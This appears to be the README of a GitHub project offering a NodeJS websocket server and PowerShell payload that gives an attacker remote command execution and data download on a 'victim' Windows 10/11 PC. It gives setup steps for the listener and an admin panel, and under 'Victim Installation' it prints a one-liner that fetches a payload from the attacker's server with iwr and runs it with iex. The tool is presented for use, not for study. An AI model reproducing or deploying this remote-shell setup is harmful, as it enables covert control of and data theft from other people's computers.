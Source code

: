 # About NodeJS-Reverse-Powershell-Websocket

This is a NodeJS server with the ability to pass through Powershell commands to a victim.

## Features
* NodeJS server that handles messages from the attacker(s) & victim(s)
* Simple HTTP admin panel where you can send Powershell commands
* Passworded access for the websocket admin side
* Ability to decode a byte array response from Powershell into a binary download (for quick downloading of data)
* Reconnecting websocket payload Powershell script
* Powershell catches errors that may occur with commands & reports them back to the websocket

## Requirements
* A server capable of a NodeJS environment with Websocket package
* Remote PC (victim) with Windows 10/11

## Known Issues
* Due to the text encoding it's hard to return binaries from the Powershell response without them being malformed
* If you manage to crash/hang Powershell, it's game over.

## Installation
 1. Open ports 3394 (default websocket) & 3395 (default http) on your server
 2. Create a NodeJS environment with Websocket package
 3. Copy files from the repo into your environment
 4. Check the settings & change password in the config file
 5. Start your node server: "node index.js" or "forever start index.js"
 6. Goto "http://[server_ip]:3395/shell.socket" in browser & enter password

## Victim Installation
 1. Edit "pl.ps1" and change the websocket address to your server: $URL = 'ws://[server_ip]:3394'
 2. Execute the payload on the remote PC: "$pl = iwr http://[server_ip]:3395/pl -UseBasicParsing; iex $pl"
 3. Check admin panel for connection

## Preview
![usage](https://i.imgur.com/2FIrXle.gif)
